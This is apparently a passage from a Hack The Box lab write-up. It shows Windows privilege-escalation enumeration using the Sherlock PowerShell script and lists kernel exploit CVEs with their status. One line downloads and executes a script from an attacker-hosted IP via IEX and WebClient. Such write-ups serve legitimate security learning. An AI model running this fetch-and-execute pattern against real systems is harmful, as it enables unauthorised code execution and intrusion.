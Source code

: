     
    
    PS C:\windows\microsoft.net\framework> ls
    
    
        Directory: C:\windows\microsoft.net\framework
    
    
    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    d----         22/8/2013   6:39 ??            v1.0.3705
    d----         22/8/2013   6:39 ??            v1.1.4322
    d----         22/8/2013   6:39 ??            v2.0.50727
    d----         20/3/2021   8:06 ??            v4.0.30319
    ...[snip]...
    

If I want to run Watson, I think I could get it to work by downloading it and
compiling it to match one of the .NET versions on the box, but I wasn’t able
to get it working quickly. Instead, because this box is so old, I went to
Watson’s predecessor, [Sherlock](https://github.com/rasta-mouse/Sherlock). I
showed both Sherlock and Watson in the writeup of [Bounty](/2018/10/27/htb-
bounty.html#enumeration) 2.5 years ago.

Sherlock is a PowerShell script. I’ll download a copy, and see that it defines
a bunch of functions, but doesn’t call any. I’ll add a line at the end to call
`Find-AllVulns`. Then I’ll use a Python HTTP server to host a copy, and
execute it the same way I got a shell:

    
    
    PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                        
    Title      : User Mode to Ring (KiTrap0D)
    MSBulletin : MS10-015              
    CVEID      : 2010-0232
    Link       : https://www.exploit-db.com/exploits/11199/
    VulnStatus : Not supported on 64-bit systems
    
    Title      : Task Scheduler .XML
    MSBulletin : MS10-092                       
    CVEID      : 2010-3338, 2010-3888
    Link       : https://www.exploit-db.com/exploits/19930/
    VulnStatus : Not Vulnerable
                                                        
    Title      : NTUserMessageCall Win32k Kernel Pool Overflow
    MSBulletin : MS13-053                     
    CVEID      : 2013-1300
    Link       : https://www.exploit-db.com/exploits/33213/
    VulnStatus : Not supported on 64-bit systems
                                                        
    Title      : TrackPopupMenuEx Win32k NULL Page
    MSBulletin : MS13-081                   
    CVEID      : 2013-3881
    Link       : https://www.exploit-db.com/exploits/31576/
    VulnStatus : Not supported on 64-bit systems
                                                        
    Title      : TrackPopupMenu Win32k Null Pointer Dereference
    MSBulletin : MS14-058
    CVEID      : 2014-4113
    Link       : https://www.exploit-db.com/exploits/35101/
    VulnStatus : Not Vulnerable
    